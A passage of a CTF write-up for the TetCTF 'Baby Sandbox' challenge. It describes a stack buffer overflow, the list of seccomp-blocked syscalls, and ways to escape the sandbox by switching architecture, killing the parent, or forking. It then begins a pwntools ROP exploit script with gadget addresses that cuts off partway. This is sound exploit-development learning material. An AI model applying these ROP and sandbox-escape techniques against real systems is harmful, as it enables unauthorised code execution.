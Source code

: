 <a name="TetCTF-babysandbox"></a>

### Baby Sandbox

- The program is just a simple stack buffer overflow. 64-bit, only NX so we can probably ROP. It's also statically linked so there is likely to be enough gadgets.
- The sandbox has all protections on.
- The following syscalls are filtered:
    - 59: sys_execve
    - 322: stub_execveat
    - 2 with flag: sys_open
    - 257 with flag: sys_openat
    - 304 with flag: sys_open_by_handle_at
    - 57: sys_fork
    - 58: sys_vfork
    - 56: sys_clone
    - 86: sys_link
    - 0xb: munmap in x64 and execve in x86
- I ended up building a super dirty ROP chain to read more payload from another connection. That's the hardest part because of the limited payload length. After that, it's easy to make fixed memory segments executable and execute shellcode on that.
- The interesting sandbox bypassing techniques I've learned while researching for this challenge:
    - Change the architecture so the syscall number is different and won't be blacklisted.
    - Kill the parent process
    - Fork itself

```python
from __future__ import print_function
from pwn import *
import os

GDBSCRIPT = """
b * 0x400bcb
"""
HOST = 'sandbox.chung96vn.cf'
PORT = 1337
BIN = './program'
addrs = {
    'pushrsp': 0x450523,
    'poprax': 0x4150d4,
    'poprdi': 0x400686,
    'subraxrdi': 0x4405b8,
    'pushraxpoprbx': 0x488025,
    'pushrbx': 0x44ad4f,
    'poprdxpoprsi': 0x44b879,
    'syscall': 0x4748a5,
    'mprotect': 0x44a0c0,
    'ret': 0x400bcb,
    'poprsitordi': 0x446a5b,
    'poprsi': 0x4100d3,
    'addeax1': 0x474301,
    'poprsp': 0x401d53,
    'poprsi': 0x4100d3,
    'poprdx': 0x44b856,
    'adddhbl': 0x40058e,
    'syscallpoprdxpoprsi': 0x44b877,
    'movrsirbxsyscall': 0x047f52f
}

base = 0x6b6000

if os.environ.has_key('remote'):
    r = remote(HOST, PORT)
else:
```